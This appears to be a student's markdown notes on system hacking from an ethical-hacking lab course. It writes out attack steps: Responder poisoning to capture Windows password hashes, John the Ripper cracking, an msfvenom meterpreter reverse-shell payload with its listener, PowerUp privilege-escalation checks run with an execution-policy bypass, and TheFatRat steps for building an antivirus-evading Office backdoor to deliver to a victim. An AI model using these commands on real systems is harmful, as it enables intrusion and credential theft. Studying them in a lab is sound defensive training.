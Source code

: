 # System Hacking

Four steps:
  - Gaining Access
  - Escalating Privileges
  - Maintaining Access
  - Clearing Logs

Fuzz
  - https://resources.infosecinstitute.com/topic/fuzzer-automation-with-spike/

Buffer overflow
  - https://datacellsolutions.com/2020/09/23/exploiting-a-simple-stack-based-buffer-overflow-vulnerability/
  - https://guif.re/bo#Finding%20a%20JMP%20ESP

## Gain Access

### Perform Active Online Attack to Crack the System’s Password using Responder

**LLMNR** (Link Local Multicast Name Resolution)
- NetBIOS and LLMNR are protocols used to resolve host names on local networks.
- LLMNR is designed for consumer-grade networks in which a domain name system (DNS) server might not exist.

**NBT-NS** 
- NetBIOS Name Service

**Responder.py**：
1. an LLMNR, NBT-NS, and MDNS poisoner.
2. ``` cd Responder ```
3. ``` sudo ./Responder.py -I eth0 ``` Responder starts listening to the network interface for events.
4. Target windows try to open file in the LAN. cmd open "\\CET-TOOLS123"
5. Responder collects the hashes of the logged-in user of the target machine.
6. Logs at "/Responder/logs"

**John the Ripper**:
1. Crack hashes.
2. ``` sudo snap install john-the-ripper ``` Snap is a software packaging and deployment system.
3. ``` sudo john /home/ubuntu/Responder/logs/[Log File Name.txt] ```

### Audit System Passwords
  
 L0phtCrack 

### Find Vulnerabilities on Exploit Sites

https://www.exploit-db.com/
1. SEARCH EDB.
2. Exploit Database Advanced Search.
3. Download the exploit code.

Other tools:
- VulDB (https://vuldb.com).
- MITRE CVE (https://cve.mitre.org).
- Vulners (https://vulners.com).
- CIRCL CVE Search (https://cve.circl.lu).

### Exploit Client-Side Vulnerabilities and Establish a VNC Session
1. VNC (Virtual Network Computing). remotely control another computer.
2. Msfvenom
- ``` msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP of Host Machine] LPORT=444 -o /root/Desktop/Test.exe ```
3. Test.exe is a malicious file for Windows to execute.
4. 
``` 
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST [ip]
msf6 > exploit
```

5. Windows run Test.exe
6. Get connection.
7. ``` meterpreter > upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1 ```
- PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.
8. ``` meterpreter > shell ```
9. In windows shell: ``` powershell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1;Invoke-AllChecks" ```
10. Find a vulnerability in VNC
11. exploit VNC vulnerability

### Gain Access to a Remote System using Armitage

Using this tool, you can create sessions, share hosts, capture data, downloaded files, communicate through a shared event log, and run bots to automate pen testing tasks.

### Hack a Windows Machine with a Malicious Office Document using TheFatRat
- compiles malware with a popular payload that can then be executed on Windows, Android, and Mac OSes. 
- an easy way to create backdoors and payloads that can bypass most anti-viruses.

1. ``` #fatrat ```
2. 06 Create Fud Backdoor 1000% with PwnWinds
3. 03 Create exe file with apache + Powershell
4. 07 Create Backdoor For Office with Microsploit
5. |2| The Microsoft Office Macro on Windows
6. Use the payload just created, at /root/Fatrat_Generated/payload.exe
7. Try to deliver the file to the Windows victim.
8. msfconsole. multi/handler -> reverse_tcp

### Perform Buffer Overflow Attack to Gain Access to a Remote System
Steps:
1. Fuzzing the application to determine the crashing of the application
2. Finding the exact location of the crash (called the Offset)
3. Confirming the offset, and control over the flow of execution by Overwriting the Instruction Pointer (EIP)
4. Checking for bad characters
5. Finding the application library with no memory protections
6. And finally, gaining access to the target

[buffer over flow detail](bof.md)

## Privilege Escalation
techniques:
- named pipe impersonation.
- misconfigured service exploitation.
- pivoting.
- relaying.

### Escalate Privileges using Privilege Escalation Tools and Exploit Client-Side Vulnerabilities



## Maintain Access & Hide

## Clear Log
